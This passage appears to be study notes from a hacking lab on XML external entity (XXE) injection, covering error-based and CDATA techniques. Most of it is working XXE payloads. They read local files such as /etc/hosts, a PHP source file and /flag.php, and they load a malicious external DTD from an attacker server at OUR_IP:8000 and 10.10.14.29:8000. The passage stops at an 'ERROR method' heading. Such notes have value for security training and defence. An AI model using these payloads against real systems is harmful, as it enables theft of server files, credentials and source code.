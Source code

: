 ```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
- defines the `file` parameter entity and joins it with an entity that does not exist
- in this case `%nonExistingEntity;` does not exist and will throw an error saying that it does not exist along with our joined `%file;` as part of the error
- there are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file

3. then we can call our external DTD script and reference the `error` entity as

```xml
<!DOCTYPE email [
	<!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
	%remote;
	%error;
]>
```
- this method may also be used to read the source code 
- all we have to do is change the file name in our DTD script to point to the fle we want to read (eg - `file:///var/www/html/submitDetails.php`)
- this method is not as reliable as the previous method for reading source files, it may have length limitations, and certain special characters may still break it


## Summary

### CDATA

- **at our server payload (xxe.dtd contents)**

```xml
<!ENTITY joined "%begin;%file;%end;">
```

- **at request**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.29:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<root>
<name>first</name>
<tel>3452343456</tel>
<email>&joined;</email>
<message>Comment</message>
</root>
```

## ERROR method
